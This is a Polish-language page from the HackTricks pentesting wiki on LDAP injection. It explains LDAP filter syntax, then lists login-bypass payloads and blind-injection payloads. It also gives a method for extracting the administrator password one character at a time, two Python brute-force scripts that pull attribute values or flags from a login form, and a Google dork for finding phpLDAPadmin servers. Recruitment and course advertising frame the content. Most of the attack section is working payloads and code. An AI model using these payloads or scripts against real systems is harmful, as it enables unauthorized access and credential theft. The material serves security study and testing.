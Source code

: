 # LDAP Injection

## LDAP Injection

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Jeśli jesteś zainteresowany **karierą w hacking** i chcesz złamać to, co nie do złamania - **zatrudniamy!** (_wymagana biegła znajomość polskiego w mowie i piśmie_).

{% embed url="https://www.stmcyber.com/careers" %}

## LDAP Injection

### **LDAP**

**Jeśli chcesz wiedzieć, czym jest LDAP, odwiedź następującą stronę:**

{% content-ref url="../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

**LDAP Injection** to atak skierowany na aplikacje webowe, które konstruują instrukcje LDAP na podstawie danych wejściowych od użytkownika. Występuje, gdy aplikacja **nieprawidłowo oczyszcza** dane wejściowe, co pozwala atakującym na **manipulację instrukcjami LDAP** przez lokalny proxy, co może prowadzić do nieautoryzowanego dostępu lub manipulacji danymi.

{% file src="../.gitbook/assets/EN-Blackhat-Europe-2008-LDAP-Injection-Blind-LDAP-Injection.pdf" %}

**Filtr** = ( filtercomp )\
**Filtercomp** = and / or / not / item\
**And** = & filterlist\
**Or** = |filterlist\
**Not** = ! filter\
**Filterlist** = 1\*filter\
**Item**= simple / present / substring\
**Simple** = attr filtertype assertionvalue\
**Filtertype** = _'=' / '\~=' / '>=' / '<='_\
**Present** = attr = \*\
**Substring** = attr ”=” \[initial] \* \[final]\
**Initial** = assertionvalue\
**Final** = assertionvalue\
**(&)** = Absolutna PRAWDA\
**(|)** = Absolutna FAŁSZ

Na przykład:\
`(&(!(objectClass=Impresoras))(uid=s*))`\
`(&(objectClass=user)(uid=*))`

Możesz uzyskać dostęp do bazy danych, która może zawierać informacje różnych typów.

**OpenLDAP**: Jeśli przyjdą 2 filtry, wykonuje tylko pierwszy.\
**ADAM lub Microsoft LDS**: Przy 2 filtrach zgłaszają błąd.\
**SunOne Directory Server 5.0**: Wykonuje oba filtry.

**Bardzo ważne jest, aby wysłać filtr z poprawną składnią, w przeciwnym razie zostanie zgłoszony błąd. Lepiej wysłać tylko 1 filtr.**

Filtr musi zaczynać się od: `&` lub `|`\
Przykład: `(&(directory=val1)(folder=public))`

`(&(objectClass=VALUE1)(type=Epson*))`\
`VALUE1 = *)(ObjectClass=*))(&(objectClass=void`

Następnie: `(&(objectClass=`**`*)(ObjectClass=*))`** będzie pierwszym filtrem (tym, który zostanie wykonany).

### Bypass logowania

LDAP obsługuje kilka formatów przechowywania hasła: clear, md5, smd5, sh1, sha, crypt. Tak więc, może się zdarzyć, że niezależnie od tego, co wprowadzisz w haśle, zostanie ono zhashowane.
```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```
#### Listy

* [LDAP\_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_FUZZ.txt)
* [Atrybuty LDAP](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt)
* [Atrybuty LDAP PosixAccount](https://tldp.org/HOWTO/archived/LDAP-Implementation-HOWTO/schemas.html)

### Ślepa Iniekcja LDAP

Możesz wymusić odpowiedzi False lub True, aby sprawdzić, czy jakiekolwiek dane są zwracane i potwierdzić możliwą Ślepą Iniekcję LDAP:
```bash
#This will result on True, so some information will be shown
Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))
```

```bash
#This will result on True, so no information will be returned or shown
Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```
#### Dump data

Możesz iterować po literach ASCII, cyfrach i symbolach:
```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```
### Skrypty

#### **Odkryj ważne pola LDAP**

Obiekty LDAP **domyślnie zawierają kilka atrybutów**, które mogą być używane do **zapisywania informacji**. Możesz spróbować **brute-force'ować wszystkie z nich, aby wyodrębnić te informacje.** Możesz znaleźć listę [**domyślnych atrybutów LDAP tutaj**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt).
```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
value = ""
finish = False
while not finish:
for char in alphabet: #In each possition test each possible printable char
query = f"*)({attribute}={value}{char}*"
data = {'login':query, 'password':'bla'}
r = requests.post(url, data=data, proxies=proxy)
sys.stdout.write(f"\r{attribute}: {value}{char}")
#sleep(0.5) #Avoid brute-force bans
if "Cannot login" in r.text:
value += str(char)
break

if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
finish = True
print()
```
#### **Specjalna Ślepa Iniekcja LDAP (bez "\*")**
```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
print("[i] Looking for number " + str(i))
for char in alphabet:
r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
if ("TRUE CONDITION" in r.text):
flag += char
print("[+] Flag: " + flag)
break
```
### Google Dorks
```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```
### Więcej ładunków

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection" %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Jeśli jesteś zainteresowany **karierą w hackingu** i chcesz złamać to, co nie do złamania - **zatrudniamy!** (_wymagana biegła znajomość języka polskiego w mowie i piśmie_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
